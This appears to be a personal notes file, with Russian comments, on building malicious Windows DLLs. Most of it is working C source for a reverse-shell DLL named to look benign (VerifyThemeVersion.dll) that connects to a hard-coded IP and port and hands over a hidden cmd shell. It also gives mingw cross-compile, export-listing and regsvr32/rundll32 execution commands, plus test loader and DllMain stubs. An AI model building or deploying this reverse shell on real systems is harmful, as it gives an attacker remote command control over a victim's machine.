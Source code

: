 # c-c-
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

Cоздание dll


sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

python3 -m pefile exports VerifyThemeVersion.dll (скажет что за функции находятся внутри)

rundll32 shell,0

----------------------
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void VerifyThemeVersion() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------Вызывалка----------------------

x86_64-w64-mingw32-gcc-win32 test.c  -o test.exe
    --------------------------------
#include <windows.h>
#include <stdio.h>

int main( void )
{
        HINSTANCE hDll;

        // Load Dll
        hDll = LoadLibrary(TEXT("max.dll"));

        // If Dll Was Loaded
        if (hDll != NULL){
                printf("DLL Found\n");
                } else {
                printf("DLL Not Found");
                }
        return 0;
}

----------------------------------------------------ДЛЛКА

x86_64-w64-mingw32-gcc-win32 max.c  -o test.dll -shared

   ------------------------------------------

#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
        switch (dwReason)
        {
         case DLL_PROCESS_ATTACH:
          MessageBox(NULL,
                        "dsfvsdfsd",
                        "dsvsdvs",
                        MB_ICONERROR | MB_OK);
        break;
        }
return TRUE;
}



                






















-----------------------------------------
# Компиляция C# из линукс

sudo apt install mono-devel

mcs -target:library -out:Shell.dll Shell.cs

